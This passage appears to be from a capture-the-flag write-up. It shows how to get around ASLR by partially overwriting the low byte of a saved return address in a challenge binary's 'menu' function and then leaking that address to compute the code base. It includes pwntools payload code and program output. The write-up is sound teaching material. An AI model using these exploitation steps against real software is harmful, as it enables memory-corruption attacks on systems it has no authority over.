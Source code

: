 Note that ASLR is enabled, meaning that we do not know any full addresses at this point. However, this does not prevent us from overwriting the saved RIP and redirecting execution to a desired location. Even with ASLR enabled, the last three significant nibbles (12 bits) remain constant, which allows us to overwrite one or two last significant bytes to jump to a relative address near the saved RIP (to **0xdd**). Since the overflow occurs in `menu`, the saved RIP belongs to an address within `main`. So, by carefully adjusting the overwritten value, we can jump back to where `menu`was called in `main` and re-execute it.

![alt text](images/overwrite.png)

Moreover, after executing `read`, it prints our input before performing the case modifications, this allows us to leak the Saved RIP that we overwrote. And since 0xdd does not represent any alphabetic letter the case modifications isn't applied.

Payload to get saved RIP leak:
```python
# Offset Calculation
sBuffer = 0x7fffffffd710
sRip =    0x7fffffffd768
offsetRip = sRip - sBuffer # 0x58

r.sendlineafter(b" Exit\n", b"1")

payload = b"A"*offsetRip + b"\xdd"
r.sendafter(b" 69 characters)", payload)
```


Output:
```bash
String you entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xddSUUUU
Your string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xddSUUUU
Choose an option:
1: Modify string
2: Debug Mode
3: Exit
```


Saved RIP leak:
```python
r.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
output = r.recvline()[:-1]
leakMain = u64(output.ljust(8, b"\x00"))
log.info(f"leakMain: {hex(leakMain)}")

sbaseCode = 0x555555554000
sLeakMain = 0x5555555553dd
offsetBaseCode = sbaseCode - sLeakMain
e.address = leakMain + offsetBaseCode
log.info(f"baseCode: {hex(e.address)}")
```
